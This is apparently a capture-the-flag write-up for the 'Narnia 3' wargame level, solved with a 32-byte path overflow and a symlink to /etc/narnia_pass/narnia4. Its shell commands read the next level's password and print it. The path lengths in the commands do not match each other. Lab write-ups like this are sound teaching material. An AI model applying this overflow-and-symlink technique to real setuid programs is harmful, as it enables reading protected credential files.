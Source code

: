 # Writeup for Narnia 3

This was a slightly more tricky challenge, because we were reading from a random file

My first hurdle was that I had to somehow redirect the reading path from the current directory to /tmp and then I had to direct it to the file I created

So before I ran this exploit, I wanted to do some basic stuff
I needed to create my directory, which has to be 32 bytes to overflow the buffer. After that, whatever I write will overwrite /dev/null, and we can inject our own path in there. 

Cool, we have our task.
First I'll just create the necessary directories
```text
narnia3@narnia:/narnia$ python -c 'print "ABCD"*8'
ABCDABCDABCDABCDABCDABCDABCDABCD

narnia3@narnia:/narnia$ mkdir -p /tmp/ABCDABCDABCDABCDABCDABCDABCDABCD/tmp
```

Now that the directories are made, I'll just link the file
```text

narnia3@narnia:/narnia$ touch /tmp/ax
narnia3@narnia:/narnia$ chmod +rwx /tmp/ax

narnia3@narnia:/narnia$ ln -s /etc/narnia_pass/narnia4 /tmp/ABCDABCDABCDABCDABCDABCDABCDABCD/tmp/ax
```

Now that everything is done, we need to send the control to /tmp/ABCDABCDABCDABCDABCDABCDABCDABCD/tmp/ax 
Cool

We can do that by first aligning our payload to make sure its 32 bytes.
Then it will copy the contents for us
```text
narnia3@narnia:/narnia$ ./narnia3 /tmp/ABCDABCDABCDABCDABCDABCDABC/tmp/ax
copied contents of /tmp/ABCDABCDABCDABCDABCDABCDABC/tmp/ax to a safer place... (/tmp/ax)
```
So as we can see, we've overwritten /dev/null with /tmp/ax which is a path that we control. Now we can just cat it out

```text
narnia3@narnia:/narnia$ cat /tmp/ax
thaenohtai
<Garbage>
```

We have the password to the next level
```text
thaenohtai
```

